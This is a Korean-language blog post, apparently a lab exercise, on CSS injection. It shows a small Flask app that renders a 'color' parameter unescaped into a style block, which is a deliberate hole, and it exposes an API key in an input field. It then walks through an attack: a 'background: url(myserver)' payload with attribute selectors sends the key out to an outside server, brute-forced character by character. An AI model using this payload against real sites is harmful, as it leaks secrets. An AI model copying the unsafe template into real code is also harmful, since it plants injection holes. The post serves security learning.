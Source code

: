 ```yaml
---
title: EX - CSS Injection 
date: 2023-09-08
author: glasses96
categories: [WEB]
tags: [WEB, CSS Injection]
pin: true
math: true
mermaid: true
---
```


> **[CSS Injection](/posts/32) 실습을 해봅시다..**
{: .prompt-info }

---

## Code
Code는 app.py, index.html 코드가 존재합니다.

코드는 단순히 `color` 변수를 받아 index.html의 `h1 태그의 색상`을 변경합니다.
index.html에는 input으로 api_key가 존재합니다.

```py
from flask import Flask, render_template, request

app = Flask(__name__)
api_key = "S3CR3T_K3Y"

@app.route('/')
def index():
    color = request.args.get('color', 'black')
    return render_template('index.html', color=color, api_key=api_key,)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8888)

```

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSS Injection Example</title>
</head>
<style>
    h1 {
            color: \{\{color | safe\}\}-->;
    }
</style>
<body>
    <h1>Hi CSS Injection</h1>
    <input value="\{\{ api_key \}\}">
</body>
</html>
```
-----

## How get api_key??
<span style="color:#9999FF">background: url</span>과 <span style="color:#9999FF">input\[attr^=value\]</span>을 이용하여 가지고 올 수 있습니다.

### Step 1. Find Point

color를 변경하여 색상이 변경되는 것을 확인할 수 있습니다.

![background_url](/assets/post/33/1.png)


### Step 2. IP Ping Back

<span style="color:#9999FF">background: url()</span> 으로 내 서버에 접근이 되는지 확인합니다.

![background_url](/assets/post/33/2.png)


### Step 3. Input Value Data Send Myserver

<span style="color:#9999FF">red;} input[value^=S]{background: url(myserver);}</span>

위와 같이 입력하면 input attr의 value가 S와 일치 하는 경우 myserver에 접근하게 됩니다.  
만약 틀릴 경우는 myserver에 접근하지 않습니다.

### Step 4. Repeat Step 3

BruteForce으로 하나씩 넣으면서 응답이 오는 값을 추가해줍니다.
이를 계속 반복합니다.

![background_url](/assets/post/33/3.png)


> 단 \<script\> 안의 데이터는 가지고 올 수 없습니다.
{: .prompt-warning }

